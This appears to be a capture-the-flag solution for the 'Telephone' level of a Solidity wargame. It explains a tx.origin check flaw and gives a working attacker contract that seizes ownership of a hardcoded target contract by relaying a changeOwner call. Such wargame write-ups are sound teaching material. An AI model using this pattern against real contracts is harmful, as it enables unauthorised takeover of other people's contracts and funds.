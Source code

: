 # Level 4 - Telephone

- tx.origin verification vulnerability.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttacker {
    address target = 0xaf964bE1c7C96C8A75DEd0BF074F72899005BBEC;

    function attack() public {
        ITelephone(target).changeOwner(msg.sender);
    }
}
```